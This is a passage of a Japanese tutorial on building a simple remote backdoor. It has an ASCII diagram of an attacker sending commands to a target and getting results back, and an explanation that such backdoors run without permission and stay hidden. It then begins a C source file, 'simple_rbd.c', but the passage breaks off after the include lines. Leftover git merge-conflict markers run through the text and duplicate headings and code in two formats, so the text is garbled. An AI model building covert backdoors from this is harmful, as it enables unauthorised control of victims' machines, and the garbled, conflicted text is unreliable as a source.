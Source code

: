 (1)
+\-\-\-\-\-\-\-\-\-\-+            +\-\-\-\-\-\-\-\-\-\-\-\-+            +\-\-\-\-\-\-\-\-\-\-+
|アタッカー|→コマンド→|ネットワーク|→コマンド→|ターゲット|
+\-\-\-\-\-\-\-\-\-\-+            +\-\-\-\-\-\-\-\-\-\-\-\-+            +\-\-\-\-\-\-\-\-\-\-+
                                                     ++++++
                                                     |実行| (2)
(3)                                                  ++++++
+\-\-\-\-\-\-\-\-\-\-+            +\-\-\-\-\-\-\-\-\-\-\-\-+            +\-\-\-\-\-\-\-\-\-\-+
|アタッカー|←実行結果←|ネットワーク|←実行結果←|ターゲット|
+\-\-\-\-\-\-\-\-\-\-+            +\-\-\-\-\-\-\-\-\-\-\-\-+            +\-\-\-\-\-\-\-\-\-\-+
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
（クライアント）                                    （サーバ）

　今回作成するリモートバックドアには、「クライアント」と「サーバ」が存在
します。クライアントはサーバに対して要求を出し、サーバはクライアントから
の要求を聞き入れ処理し、そしてその実行結果をクライアントへ返します。ここ
で、クライアントはアタッカー側となり、サーバはターゲット側ということにな
ります（手法によっては逆の場合もあります）。これは、WEBやFTPサービスと同
じようなものだと解釈することができます。WEBのクライアントはブラウザであり、
サーバはApacheやANHTTPd等のサーバアプリケーションとなります。
　正当なWEB等のサービスとリモートバックドアの類で異なる点は、前者は管理者
の意思で稼動させたものであるのに対して、後者はアタッカーが許可無く勝手に
稼動させ、稼動していることがばれないように隠そうとすることです。


<<<<<<< HEAD
■0x03.) シンプルなリモートバックドア
=======
### 0x03 シンプルなリモートバックドア
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　以下に非常にシンプルなリモートバックドアのソースコードを示します。
　（都合上できるだけ短くコードを書いたので読みにくい点は許してください）
　（クライアントにはtelnetコマンドを使用します）

<<<<<<< HEAD
-----  simple_rbd.c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
=======
\-\-\-\-\-  simple_rbd.c
\#include <sys/types.h>
\#include <sys/socket.h>
\#include <netinet/in.h>
\#include <stdio.h>
\#include <stdlib.h>
\#include <unistd.h>
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
